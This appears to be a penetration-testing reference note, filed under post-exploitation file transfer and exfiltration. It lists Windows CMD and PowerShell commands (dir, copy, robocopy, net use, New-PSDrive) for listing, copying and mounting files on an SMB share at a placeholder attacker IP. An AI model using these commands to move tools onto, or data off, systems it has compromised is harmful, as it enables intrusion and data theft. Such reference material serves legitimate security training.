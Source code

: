 # Client
## 01 - Command Prompt

List the files to check if the share is accessible.

```
C:\> dir \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xF - Operating System/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

You can mount the share remotely.

> [!INFO] Error Message
> The message is self-explanatory. Just specify username and password on the server side and it'll work just fine.
> 
> ```
> System error 1272 has occurred.
> 
> You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
> ```

```
C:\> net.exe use \\<attacker_IP>\<share_name> [/user:<username> <password>] [/persistent:yes]

C:\> net.exe use <drive_letter>: \\<attacker_IP>\<share_name> [/user:<username> <password>] [/persistent:yes]
```

To unmount the share network.

```
C:\> net.exe use /delete \\<attacker_IP>\<share_name>

C:\> net.exe use <drive_letter>: /delete
```

## 02 - PowerShell

List the files to check if the share is accessible.

```
PS C:\> Get-ChildItem \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
PS C:\> Copy-Item \\<attacker_IP>\<share_name>\<source> <destination>
```

You can mount the share remotely. Pass the credentials if required.

```powershell
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)

New-PSDrive -Name <drive_letter> -PSProvider FileSystem -Root "\\<attacker_IP>\<share_name>" [-Credential $credential]
```

To unmount the share network.

```
PS C:\> Remove-PSDrive -Name <drive_letter>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/SMB]]

### Chris Titus

- [Chris Titus: Robocopy](https://www.christitus.com/robocopy)